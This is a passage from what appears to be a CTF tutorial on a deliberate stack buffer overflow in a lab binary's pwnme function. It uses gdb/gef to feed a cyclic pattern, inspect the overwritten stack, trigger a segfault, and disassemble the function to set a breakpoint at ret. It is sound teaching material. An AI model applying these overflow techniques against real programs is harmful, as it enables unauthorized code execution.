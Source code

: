 Now it will ask for your input inside gdb, paste the pattern you copied earlier and type enter.

```
Run till exit from #0  0x0000000000400596 in read@plt ()
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaa
```
let's examine the stack again

```
gef➤  x/1gx $rsp
0x7fffffffe030: 0x6161616161616161
```

you'll notice it's different this time and if you're familliar with the `ASCII` table you're notice that `0x6161616161616161` is `aaaaaaaa` but in hex.

let's check:

```
gef➤  x/1s $rsp
0x7fffffffe030: "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaa\v\216\341\367\377\177"
```
that's our pattern, in the stack, which means that calling `read` function reads input from the user and loads it to the stack.
this time we used `s` instead of `gx` cause we need to print it as `string` (`s`).

let's continue the execution.

```
gef➤  c
```
we receive a `SIGSEGV` which is a segmentation fault which is a segmentation fault.

again let's run the program and this time set the break point at `ret` instruction.
so:

```
gef➤  disass pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x20
   0x00000000004006f0 <+8>:     lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:    mov    edx,0x20
   0x00000000004006f9 <+17>:    mov    esi,0x0
   0x00000000004006fe <+22>:    mov    rdi,rax
   0x0000000000400701 <+25>:    call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:    mov    edi,0x400838
   0x000000000040070b <+35>:    call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:    mov    edi,0x400898
   0x0000000000400715 <+45>:    call   0x400550 <puts@plt>
   0x000000000040071a <+50>:    mov    edi,0x4008b8
   0x000000000040071f <+55>:    call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:    mov    edi,0x400918
   0x0000000000400729 <+65>:    mov    eax,0x0
   0x000000000040072e <+70>:    call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:    lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:    mov    edx,0x38
   0x000000000040073c <+84>:    mov    rsi,rax
   0x000000000040073f <+87>:    mov    edi,0x0
   0x0000000000400744 <+92>:    call   0x400590 <read@plt>
   0x0000000000400749 <+97>:    mov    edi,0x40091b
   0x000000000040074e <+102>:   call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:   nop
   0x0000000000400754 <+108>:   leave  
=> 0x0000000000400755 <+109>:   ret    
End of assembler dump.
```
set break point at `ret` (last line, see above)
```
```